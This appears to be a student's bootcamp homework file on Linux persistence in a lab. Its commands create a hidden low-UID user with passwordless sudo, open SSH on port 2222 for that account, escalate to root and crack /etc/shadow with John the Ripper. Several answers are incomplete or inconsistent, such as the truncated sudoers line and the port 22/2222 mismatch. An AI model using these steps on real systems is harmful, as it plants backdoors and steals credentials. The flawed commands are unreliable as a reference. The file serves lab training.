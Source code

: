 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - ` sudo useradd sysd`
    ![picture](IMAGE/create_and_move.png)

2. Give your secret user a password: 
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 400 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 400 sysd`
     ![picture](IMAGE/create_and_move.png)

5. Give your secret user full `sudo` access without the need for a password:
   -  `sysd    ALL=(ALL:ALL) NOPASSWD`

6. Test that `sudo` access works without your password:

    ```bash
  sudo -l (su sysd)
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    sudo nano /etc/ssh/sshd_config
Uncomment Port 22
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su`
    ![picture](IMAGE/john.PNG)
    


---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

